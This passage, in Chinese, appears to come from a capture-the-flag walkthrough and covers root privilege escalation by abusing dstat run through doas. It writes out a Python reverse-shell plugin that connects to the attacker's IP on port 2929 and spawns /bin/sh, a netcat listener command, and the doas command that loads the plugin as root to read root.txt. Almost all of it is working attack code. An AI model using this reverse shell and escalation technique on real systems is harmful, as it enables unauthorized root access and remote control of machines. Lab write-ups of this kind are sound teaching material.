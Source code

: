 ![](img/4089c6047c48e2f88283906c7b99a9f5.png)

2.用下面的代码在`/usr/local/share/dstat/`中创建一个名为`dstat_cyberw1ng.py`的 python 插件

```
/usr/local/share/dstat/ && nano dstat_cyberw1ng.py
```

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((“<your-IP>”,2929));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

import pty; pty.spawn(“/bin/sh”)
```

3.确保在执行之前设置一个监听器

```
nc -nvlp 2929
```

4.执行以下命令并导航至`/root && cat root.txt`

```
doas -u root /usr/bin/dstat --cyberw1ng
```

![](img/41c6cf4f4a11c9b7ad2475a5f746c179.png)
